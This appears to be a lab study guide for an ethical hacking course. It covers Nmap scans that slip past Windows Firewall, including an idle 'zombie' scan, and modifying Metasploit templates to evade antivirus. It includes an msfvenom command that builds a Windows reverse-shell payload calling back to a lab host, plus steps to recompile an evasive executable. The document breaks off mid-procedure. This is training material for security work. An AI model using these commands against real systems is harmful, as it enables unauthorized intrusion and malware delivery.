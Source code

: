     - SSH Tunneling
    - DNS Tunneling
    - Through External Systems
    - MITM Attack
    - Content-based Evasion
    - XSS Attack

---
#### Bypass Windows Firewall using Nmap Evasion Techniques

- Security administrators are essential in fortifying organizational networks. Despite robust defenses, insiders may attempt evasion techniques to discover services on a target. Here, we will discuss how to use Nmap to perform reconnaissance on a target machine by bypassing Windows Firewall rules.

##### Step:

- **Nmap Scans:**
   - Perform a basic Nmap scan on victim machine: `nmap 10.10.1.11`. Observe filtered ports due to the firewall.
   - Conduct a TCP SYN Port Scan: `nmap -sS 10.10.1.11`.
   - Perform an INTENSE Scan: `nmap -T4 -A 10.10.1.11`.
   - Execute a Ping Sweep scan on the subnet: `nmap -sP 10.10.1.0/24`.

- **Zombie Scan:**
   - Perform a Zombie Scan using another machine as the Zombie: `nmap -sI 10.10.1.22 10.10.1.11`.

---

#### Bypass Antivirus using Metasploit Templates

- Antivirus software aims to identify and prevent the execution of malicious processes or files on endpoints. Here, we are modifying Metasploit templates to bypass antivirus detection, allowing the execution of malicious processes on the target machine.

##### Steps

- Generate a payload using msfvenom:
   ```bash
   msfvenom -p windows/shell_reverse_tcp Lhost=10.10.1.13 Lport=444 -f exe > Windows.exe
   ```
- Open Firefox and navigate to [VirusTotal](https://www.virustotal.com).
- Upload the generated Windows.exe file for analysis.

- Review the results showing the number of antivirus vendors detecting the virus.
- Open the Metasploit template file for modification:
    ```bash
    pluma /usr/share/metasploitframework/data/templates/src/pe/exe/template.c
    ```
- In the template.c file, change the payload size on line 3 from 4096 to 4000, save, and close.
- Navigate to the template directory:
    ```bash
    cd /usr/share/metasploit-framework/data/templates/src/pe/exe/
    ```
- Recompile the standard template:
    ```bash
    i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe
    ```
